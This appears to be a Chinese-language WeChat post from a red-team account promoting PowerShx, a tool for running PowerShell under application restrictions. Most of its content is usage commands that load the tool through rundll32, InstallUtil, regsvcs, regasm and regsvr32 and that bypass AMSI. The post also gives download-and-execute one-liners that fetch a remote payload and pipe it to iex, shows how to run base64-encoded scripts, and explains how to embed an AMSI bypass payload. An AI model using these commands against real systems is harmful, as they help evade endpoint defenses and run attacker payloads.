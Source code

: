 #  神兵利器 - PowerShx 不受软件限制运行Powershell

iomoath  [ Khan安全攻防实验室 ](javascript:void\(0\);)

**Khan安全攻防实验室** ![]()

微信号 KhanCJSH

功能介绍 安全不是一个人，我们来自五湖四海。研究方向Web内网渗透，免杀技术，红蓝攻防对抗，CTF。

____

__

收录于话题

  

        使用 DLL 或独立可执行文件的非托管 PowerShell 执行。

  

![](https://gitee.com/fuli009/images/raw/master/public/20211015090901.png)

  

  

        PowerShx 是对PowerShdll项目的重写和扩展。PowerShx 提供绕过 AMSI 和运行 PS Cmdlet 的功能。

  

### 特征

  * 使用 rundll32.exe、installutil.exe、regsvcs.exe 或 regasm.exe、regsvr32.exe 运行带有 DLL 的 Powershell。

  * 在没有 powershell.exe 或 powershell_ise.exe 的情况下运行 Powershell

  * AMSI 旁路功能。

  * 直接从命令行或 Powershell 文件运行 Powershell 脚本

  * 导入 Powershell 模块并执行 Powershell Cmdlets。

## 用法

####

#### 运行dll32

  

  *   *   *   *   *   *   * 

    
    
    rundll32 PowerShx.dll,main -e                           <PS script to run>rundll32 PowerShx.dll,main -f <path>                    Run the script passed as argumentrundll32 PowerShx.dll,main -f <path> -c <PS Cmdlet>     Load a script and run a PS cmdletrundll32 PowerShx.dll,main -w                           Start an interactive console in a new windowrundll32 PowerShx.dll,main -i                           Start an interactive consolerundll32 PowerShx.dll,main -s                           Attempt to bypass AMSIrundll32 PowerShx.dll,main -v                           Print Execution Output to the console

  

#### 替代

  

  *   *   *   *   *   *   *   *   *   *   *   * 

    
    
    1.     x86 - C:\Windows\Microsoft.NET\Framework\v4.0.30319\InstallUtil.exe /logfile= /LogToConsole=false /U PowerShx.dll    x64 - C:\Windows\Microsoft.NET\Framework64\v4.0.3031964\InstallUtil.exe /logfile= /LogToConsole=false /U PowerShx.dll2.     x86 C:\Windows\Microsoft.NET\Framework\v4.0.30319\regsvcs.exe PowerShx.dll    x64 C:\Windows\Microsoft.NET\Framework64\v4.0.30319\regsvcs.exe PowerShx.dll3.     x86 C:\Windows\Microsoft.NET\Framework\v4.0.30319\regasm.exe /U PowerShx.dll    x64 C:\Windows\Microsoft.NET\Framework64\v4.0.30319\regasm.exe /U PowerShx.dll4.     regsvr32 /s  /u PowerShx.dll -->Calls DllUnregisterServer    regsvr32 /s PowerShx.dll --> Calls DllRegisterServer

  

### exe 版本

  

  *   *   *   *   * 

    
    
    PowerShx.exe -i                          Start an interactive consolePowerShx.exe -e                          <PS script to run>PowerShx.exe -f <path>                   Run the script passed as argumentPowerShx.exe -f <path> -c <PS Cmdlet>    Load a script and run a PS cmdletPowerShx.exe -s                          Attempt to bypass AMSI.

  

## 嵌入式有效载荷

  

       可以通过更新“Common”项目中的数据字典“Common.Payloads.PayloadDict”并在方法 PsSession.cs -> Handle() 中调用它来嵌入有效负载。示例：在 Handle() 方法中：

  

  *   *   *   *   * 

    
    
    private void Handle(Options options){  // Pre-execution before user script  _ps.Exe(Payloads.PayloadDict["amsi"]);}

  

## 例子

  

#### 运行 base64 编码的脚本

  

  *   *   * 

    
    
    rundll32 PowerShx.dll,main [System.Text.Encoding]::Default.GetString([System.Convert]::FromBase64String("BASE64")) ^| iex  
    PowerShx.exe -e [System.Text.Encoding]::Default.GetString([System.Convert]::FromBase64String("BASE64")) ^| iex

  

注意：Empire stagers 需要使用 [System.Text.Encoding]::Unicode 解码

  

#### 运行 base64 编码的脚本

  

  *   *   * 

    
    
    rundll32 PowerShx.dll,main . { iwr -useb https://website.com/Script.ps1 } ^| iex;  
    PowerShx.exe -e "IEX ((new-object net.webclient).downloadstring('http://192.168.100/payload-http'))"

  

项目地址：

  

aHR0cHM6Ly9naXRodWIuY29tL2lvbW9hdGgvUG93ZXJTaHg=

预览时标签不可点

收录于话题 #

个 __

上一篇 下一篇

阅读

分享 收藏

赞 在看

____已同步到看一看[写下你的想法](javascript:;)

前往“发现”-“看一看”浏览“朋友在看”

![示意图](//res.wx.qq.com/mmbizwap/zh_CN/htmledition/images/pic/appmsg/pic_like_comment55871f.png)

前往看一看

**看一看入口已关闭**

在“设置”-“通用”-“发现页管理”打开“看一看”入口

[我知道了](javascript:;)

__

已发送

取消 __

####  发送到看一看

发送

神兵利器 - PowerShx 不受软件限制运行Powershell

最多200字，当前共字

__

发送中

写下你的留言

微信扫一扫  
关注该公众号

[知道了](javascript:;)

微信扫一扫  
使用小程序

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

： ， 。 视频 小程序 赞 ，轻点两下取消赞 在看 ，轻点两下取消在看

